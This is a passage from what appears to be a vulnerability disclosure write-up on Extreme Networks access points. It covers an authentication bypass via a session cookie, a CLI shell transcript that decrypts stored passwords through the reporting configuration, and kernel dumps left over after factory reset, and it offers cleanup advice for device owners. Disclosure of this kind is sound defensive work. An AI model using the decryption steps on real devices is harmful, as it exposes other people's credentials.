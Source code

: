 After an admin has logged into the webinterface once, you can simply give yourself a
session cookie of your liking and you'll automatically be logged in.

We found mention of this vulnerability on multiple sources, but
[this writeup](https://research.aurainfosec.io/pentest/hacking-the-hive/#broken-authentication)
seems to explain it in most detail.

## Decrypting passwords ([CVE-2025-27228](https://extreme-networks.my.site.com/ExtrArticleDetail?an=000123646))

While exploring the implementation of various CLI commands we discovered a way of
decrypting various passwords stored on the AP using the reporting functionality.

Creating a reporting configuration using
`application reporting upload http://0 time-window 1 admin a password <password> basic`
with an encrypted password allows printing of the decrypted password using
`show application reporting configuration`.

This can easist be shown by example

```shell
AH-0cd6c0# user testuser
AH-0cd6c0# user testuser password test123
AH-0cd6c0# show run users password | include testuser
user testuser
user testuser password fwCYSPs7l92noOSJ2Drf4dc7eFlUB4aD6AoAc
AH-0cd6c0# application reporting upload http://0 time-window 1
           admin a password fwCYSPs7l92noOSJ2Drf4dc7eFlUB4aD6AoAc basic
AH-0cd6c0# show application reporting configuration
[...]
Application reporting password:			test123
[...]
```

We also tried decrypting the admin passwords, but it turned out that those passwords are
first MD5-hashed before being encrypted. Keep in mind that MD5 can easily be brute-forced
nowadays, even complex passwords with up to 10 characters can be cracked in under two
weeks on a single GPU.

## Left-over kernel dumps after factory reset (no CVE)

Exploring the flash on the AP using the previously gained root access we discovered some
left-over kdumps which haven't been erased during factory reset. These contained various
configuration snippets from the previous owner, including encrypted passwords.
Unfortunately it seems that the TPM of the AP is not re-initialized during factory
resets, so we were also able to decrypt those passwords.

Be advised that when selling or giving away your old devices you should make sure to erase
any existing kdumps, ideally after an initial factory reset to make sure nothing is stored
there during the reset process. List existing kdumps using `show _core flash`, delete them
one by one using `clear _core flash <core file name>` (or run a root exploit and delete
everything from `/f/kdump`).

## Second root exploit ([CVE-2025-27229](https://extreme-networks.my.site.com/ExtrArticleDetail?an=000123644))
